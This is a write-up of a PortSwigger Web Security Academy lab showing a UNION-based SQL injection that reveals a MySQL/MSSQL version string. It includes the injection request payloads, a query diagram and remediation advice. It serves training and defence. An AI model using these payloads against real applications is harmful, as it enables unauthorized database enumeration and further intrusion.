








# Lab Writeup: SQL Injection Attack — Querying the Database Type and Version on MySQL and Microsoft

> **Platform:** PortSwigger Web Security Academy  
> **Category:** SQL Injection  
> **Difficulty:** Practitioner  
> **Status:** ✅ Solved  
> **Date:** April 2026  

---

## Overview

This lab demonstrates a SQL injection vulnerability in the product category filter where query results are returned in the application's response. By using a UNION-based attack, an attacker can retrieve the database version string — a critical enumeration step in any SQL injection engagement.

**Objective:** Use a UNION attack to display the database version string.



---

## Vulnerability Description

| Attribute | Detail |
|-----------|--------|
| **Vulnerability Type** | SQL Injection — UNION-based version enumeration |
| **OWASP Category** | A03:2021 – Injection |
| **Injection Point** | `category` query parameter |
| **Technique** | UNION SELECT to append attacker-controlled rows to query results |
| **Impact** | Database fingerprinting, enumeration of schema and version |

---

## Tools Used

- **Burp Suite** – Proxy and Repeater for request modification
- **Browser** – PortSwigger lab environment

---

## Exploitation Steps

### Step 1 — Capture the Request in Burp Suite

Navigate to a product category and intercept the request in Burp Proxy. Right-click → **Send to Repeater**.



---

### Step 2 — Access the Shop Page

Confirm the shop page loads normally and identify the `category` parameter in the filter URL.



---

### Step 3 — Determine Number of Columns (500 Error)

In Repeater, test with a basic quote to confirm injection:

```
GET /filter?category=Gifts'
```

Returns `500 Internal Server Error` — confirms SQL injection is possible.

Then test column count with NULL values:

```
GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL#
```



---

### Step 4 — Confirm Two Columns (200 OK)

```
GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL#
```

Returns `200 OK` — the original query returns **2 columns**.



---

### Step 5 — Confirm String Columns

Test which columns accept string data:

```
GET /filter?category=Gifts'+UNION+SELECT+'abc','def'#
```

Returns `200 OK` — both columns accept strings.



---

### Step 6 — Extract the Database Version

For MySQL/Microsoft, the version string is retrieved with `@@version`:

```
GET /filter?category=Gifts'+UNION+SELECT+@@version,NULL#
```

The database version string is displayed in the product listing on the page.



---

### Step 7 — Lab Solved

The database version is successfully retrieved and the lab is marked as solved.



---

## Root Cause Analysis

```
Injected Query:
SELECT name, description FROM products 
WHERE category = 'Gifts' 
UNION SELECT @@version, NULL#'

Result:
┌─────────────────────────┬──────┐
│ name                    │ desc │
├─────────────────────────┼──────┤
│ 8.0.42-0ubuntu0.20.04.1 │ NULL │  ← attacker-injected row
│ Normal Product          │ ...  │
└─────────────────────────┴──────┘
```

---

## Remediation

| Recommendation | Description |
|----------------|-------------|
| **Parameterized Queries** | Use prepared statements — prevents all UNION-based injection |
| **Error Handling** | Never expose database error messages or stack traces in responses |
| **Least Privilege DB Accounts** | Restrict DB user permissions to only what is needed |
| **Input Validation** | Validate and whitelist the `category` parameter server-side |

---

## Key Takeaways

- **UNION attacks require matching the column count and data types** of the original query.
- **`@@version`** is the MySQL/MSSQL syntax for the version string; PostgreSQL uses `version()`, Oracle uses `v$version`.
- **Database fingerprinting is typically the first step** after confirming SQL injection — it determines what syntax and tables to use next.
- **500 errors are a strong signal** that user input is breaking the SQL query syntax.

---

*Writeup produced as part of PortSwigger Web Security Academy lab practice.*
